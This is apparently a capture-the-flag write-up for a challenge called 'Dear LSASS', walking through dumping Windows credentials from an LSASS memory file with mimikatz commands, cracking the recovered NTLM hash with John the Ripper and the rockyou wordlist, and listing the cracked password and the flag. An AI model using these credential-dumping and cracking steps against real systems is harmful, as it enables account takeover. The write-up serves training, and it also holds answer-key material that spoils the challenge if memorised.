


# Dear LSASS
#### Mimikatz, johntheripper, brute-force
## Challenge Description:

An IT company hired you to perform an internal takeover of the sales department.
While looking around the office, you noticed that an employee named Oshri left his computer unlocked and unsupervised.
Although an attempt to leave a backdoor failed due to the company's endpoint protection software, you managed to successfully dump the memory of the LSASS process to a USB drive

Your goals 
☛ Oshri's station is a Windows 10 20H2 (Build 2009). 
☛ Extract the credentials from the memory dump of the LSASS process. 
☛ Find Oshri's password. 

## Process:

Download the DMP file to a virtual Windows 10 and download mimikatz 

Open mimikatz with admin privileges 
Use the command 'privilege::debug' and make sure you get appropriate response 

Use 'sekurlsa::minidump C:\Users\User\Desktop\mimikatz-master\x64\oshri.DMP' to access the DMP file 
 

#### sekurIsa:.Iogonpasswords 

 
        
The NTLM hash
 
          722b6a1fc17c46ca1b771f6dd502d7a1
    
 

Create a txt file with the NTLM hash in a kali machine 
Use the command 'john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt' to brute-force the hash 

 
        
The password we were looking for

         
"qweasdqweasd"
    
 
Convert the password through an MD5 converter and you found the hash

 
        
The Hidden Flag
 
          ca64f5c1d65081a0b2a797844b6557f4
    
 

